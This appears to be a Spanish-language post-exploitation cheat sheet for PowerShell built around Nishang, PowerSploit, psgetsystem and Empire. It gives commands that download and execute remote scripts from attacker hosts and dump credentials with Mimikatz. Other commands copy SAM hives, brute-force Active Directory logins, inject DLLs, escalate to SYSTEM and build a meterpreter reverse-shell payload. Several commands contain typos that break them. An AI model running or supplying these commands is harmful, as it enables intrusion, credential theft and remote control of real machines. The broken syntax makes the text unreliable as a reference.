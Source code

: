 ```yaml
---
title: 'Powershell post exploitation'
description: ''
pubDate: 'May 12 2023'
heroImage: '/asd.png'
slug: 'powershell/post_exploitation'
---
```


- ActiveDirectory
- Antak-WebShell
- Backdoors
- Bypass
- Client
- Escalation
- Execution
- Gather
- MITM
- Misc
- Pivot
- Prasadhak
- Scan
- Shells
- Utility

[Nisang](https://github.com/samratashok/nishang) adicionalmente nos trae lo mejor de otras herramientas.

```powershell
# Copia el registro hive y el SAM del directorio actual de trabajo
iex (Net-Objcet Net.Webclient).downloadstring("http://192.168.0.17:8080/script.ps1");Copy-VSS

```

Invoke-Mimikatz cmdlet va a dumpear los hashes de la memoria

```powershell
iex (New.Object Net.Webclient).downloadstring("http://192.168.0.17/Invoke-Mimikatz"); Invoke-Mimikatz -DumpCreds

```

#### Bruteforcing MSSQL, Directorio activo, web y ftp

```powershell
Invoke-BruteForce -ComputerName targetdomain.com -UserList C:\temp\users.txt -PasswordList C:\temp\pass.txt -Service ActiveDirectory -StopOnSuccess -Verbose
```

#### DLL Injection - PowerSploit

```powershell
msfvenom -p windows/exec CMD="cmd.exe" -f dll > cmd.dll
# lo pasamos a la windows con iex...
iex (Net-Object Net-client).DownloadFile("http://atack_url/cmd.dll", "C:\temp\cmd.dll")
# inyectamos nuestro dll a un proceso por ejemplo notepad, identificamos el PID
ps | ? {$_.ProcessName -match "notepad"}
# ahora lo inyecatamos descargando el dll e identificando el proceso
iex (New-Object Net.Webclient).DownloadString("http://atack_url/Invoke-DLLInjection.ps1");Invoke-DLLInjection -ProcessID 7413 C:\programdata\cmd.dll

[ExplicaciónDLL Injection](http://blog.opensecurityresearch.com/2013/01/windows-dll-injection-basics.html)

```

#### Psgetsystem

Evadir apps de soluciones de lista blanca para injectar nosotros mismos a un proceso confiable

[psgetsystem script](https://github.com/decoder-it/psgetsystem)

```powershell
# descargado a nuestro target, lo source y executamos
. .\psgetsys.ps1
[MyProcess]::CreateProcessFromParent(<system_pid>, "<command_to_execute>")

# antes de hacer esto necesitamos identificar un proceso y elegimos uno que podamos utilizar
Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id
# nos da una lista de procesos system-owned justo con el PId y el nombre del proceso

# Ejecuta cmd.exe prompt pero como proceso hijo del system-owned processname.exe y como resultado nuestro proceso hijo tambien sera SYSTEM (NT authority/system)

. .\psgetsys.ps1
[MyProcess]::CreateProcessFromParent(3385, "cmd.exe")

```

otra exelente herramienta [Empire](https://github.com/EmpireProject/Empire)

```bash
msfvenom -p windows/x64/meterpreter_reverse_https lport=443 lhost=192.168.0.55 -f psh-reflection > payload.ps1

```
